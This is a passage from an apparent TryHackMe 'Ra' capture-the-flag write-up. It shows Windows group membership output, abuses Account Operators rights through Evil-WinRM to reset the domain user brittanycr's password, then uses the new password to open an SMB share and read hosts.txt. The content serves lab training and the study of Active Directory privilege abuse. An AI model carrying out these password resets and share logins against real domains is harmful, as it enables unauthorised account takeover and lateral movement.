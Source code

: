 BUILTIN\Remote Desktop Users                Alias            S-1-5-32-555                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
WINDCORP\IT                                 Group            S-1-5-21-555431066-3599073733-176599750-5865 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448</pre>

Refer to this article to understand the different groups:

[Active Directory Securtiy Groups - Microsoft Docs](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups)

[Account Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators) group grants limited account creation privileges to a user. This can essentially create and manage users and groups in the domain, including its own membership and that of the Server Operators group.

## brittanycr

So, let's change the password for brittanycr's account. Please note, the password must meet password policy requirements.

Here is the AD password policy:

![Password policy](https://imgur.com/Q7OSbmI.png)

<pre>*Evil-WinRM* PS C:\Users\brittanycr> net user /domain brittanycr CyberGoat1234
The command completed successfully.</pre>

I actually tried to make a new user and add them to the Administrator group but I was denied access despite being an Account operator.

I continued down the brittanycr route and access her share with the following command:

<pre>┌─[✗]─[user@parrot]─[~/tryhackme/Ra]
└──╼ $smbclient \\\\ra.thm\\Users -U brittanycr
Enter WORKGROUP\brittanycr's password: CyberGoat1234</pre>

We can access the hosts.txt file now as we are authenticated as brittanycr.

<pre>GET hosts.txt</pre>

This is what the file contains:

<pre>┌─[user@parrot]─[~/tryhackme/Ra]
└──╼ $cat hosts.txt 
google.com
cisco.com</pre>
